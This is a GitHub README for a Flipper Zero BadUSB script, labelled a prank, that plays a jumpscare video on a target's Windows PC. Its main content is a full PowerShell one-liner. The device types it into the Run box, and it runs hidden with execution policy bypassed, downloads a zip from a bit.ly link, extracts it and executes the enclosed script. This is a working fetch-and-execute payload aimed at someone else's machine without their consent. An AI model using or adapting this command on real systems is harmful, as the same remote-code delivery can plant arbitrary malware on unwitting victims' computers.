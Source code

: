 # Never Gonna Give You Up in Flipper Zero - BADUSB ✅

A script used to meme your target.

**Category**: Prank

[![Hits](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2Faleff-github%2Fmy-flipper-shits&count_bg=%233C3C3C&title_bg=%233C3C3C&icon=linux.svg&icon_color=%23FFFFFF&title=views&edge_flat=false)](https://github.com/aleff-github/my-flipper-shits)

## Disclaimer

<div align=center>

<img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/gif/flipper_zero%20(15).gif" width="209" /><br><img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

This script will meme your target.

A jumpscare video will be downloaded to their temp directory. 

When a mouse movement is detected, that video will be played in the PowerShell console at max volume and fullscreen.

## Getting Started

### Usage
YouTube video - [click here](https://youtube.com/shorts/XRY_MEYQUxA)

### Dependencies

* An internet connection
* Windows 10,11

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the dependencies and payload
```
powershell -w h -NoP -NonI -Ep Bypass $D="$env:tmp";iwr -Uri 'bit.ly/NeverGonnaGiveYouUpWindows' -O "$D\js.zip";Expand-Archive "$D\js.zip" -Des $D -Force;. "$D\js\js.ps1"
```
